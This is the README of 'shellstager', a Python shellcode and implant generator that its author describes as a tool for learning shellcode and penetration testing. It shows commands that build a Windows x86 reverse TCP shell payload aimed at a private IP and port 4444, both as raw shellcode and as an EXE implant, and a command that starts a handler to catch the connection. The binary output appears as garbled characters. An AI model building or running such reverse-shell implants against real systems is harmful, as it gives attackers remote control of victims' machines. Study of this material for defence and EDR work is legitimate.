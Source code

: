 # shellstager

This tool helps on Shellcode understanding and development. It also includes Service Handler to help simulating remote attacks and for possible EDR rules creation.

```
$ ~/shellstager/ python shellstager.py payload -h
usage: payload [-h] [-l] [-s SEARCH_PAYLOAD] {add,get,disasm} ...

ShellStager - Shellcode maker for penetration testing.

positional arguments:
  {add,get,disasm}
    add                 Add new Payload script.
    get                 Get Payload data.
    disasm              Show Disassembly of Payload.

optional arguments:
  -h, --help            show this help message and exit
  -l, --list-payloads   List all available Payloads.
  -s SEARCH_PAYLOAD, --search-payload SEARCH_PAYLOAD
                        List all available Payloads.
```

**Dumping raw Shellcode to commandline**
```
$ ~/shellstager/ python shellstager.py payload get --name windows/x86/shell/reverse_tcp --host 172.20.96.252 --port 4444 -f raw
`1ۉd0[
8u};}$uXP$fHP څt>I411
           JPڋډЉD$$ZZaY[QX_[)TPh)kj
h`h\PPPP@P@Ph՗jVWhtaՅt
udjjVWh_Ճ~66j@hVjhXSSjVSWh_Ճ}%Xh@jPh
                                    /0WhunMa^^
                                              $p)uVjS%
```

**Creating an EXE implant/payload**
```
$ ~/shellstager/ python shellstager.py payload get --name windows/x86/shell/reverse_tcp --host 172.20.96.252 --port 4444 -f exe
MZ@     !L!T␤␋⎽ ⎻⎼⎺±⎼▒└ ␌▒┼┼⎺├ ␉␊ ⎼┤┼ ␋┼ DOS └⎺␍␊↓
$]┴⎽┴⎽┴⎽V▒┴⎽R␋␌␤┴⎽PEL␌␉

                        @ .text` ``1ۉd0[
8u};}$uXP$fHP څt>I411                   [K&1s(1<a|,
           JPڋډЉD$$ZZaY[QX_[)TPh)kj
h`h\PPPP@P@Ph՗jVWhtaՅt
udjjVWh_Ճ~66j@hVjhXSSjVSWh_Ճ}%Xh@jPh
                                    /0WhunMa^^
                                              $p)uVjS%
```

**Running the Service Handler**
```
$ ~/shellstager/ python shellstager.py handler run --payload windows/x86/shell/reverse_tcp --host 172.20.96.252 --port 4444
[*] Started Reverse TCP handler for 172.20.96.252:4444

```

<br><br><br>
Note:<br>
*This is an attempt on understanding internals of Shellcodes in backdoors or implants if you will. Although that Metasploit was used to be written in Python, I write this as it is my way of learning things.*

<br><br>
References:
<br>MASM
<br>Metasploit
<br>Capstone
<br>Keystone
<br>pefile
